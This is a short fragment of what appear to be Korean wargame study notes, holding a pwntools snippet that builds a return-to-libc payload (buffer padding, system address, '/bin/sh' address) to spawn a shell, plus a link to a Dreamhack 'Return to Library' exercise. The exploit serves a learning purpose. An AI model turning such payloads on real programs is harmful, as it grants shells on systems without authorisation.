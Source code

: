 ```python
binsh_addr=p32(int(p.recv(7),16))

payload+=b'a'*(bufsize+sfpsize)
payload+=system_addr
payload+=b'a'*sfpsize
payload+=binsh_addr

p.send(payload)

p.interactive()
```


# 예제3
[[Dreamhack - Return to Library]]

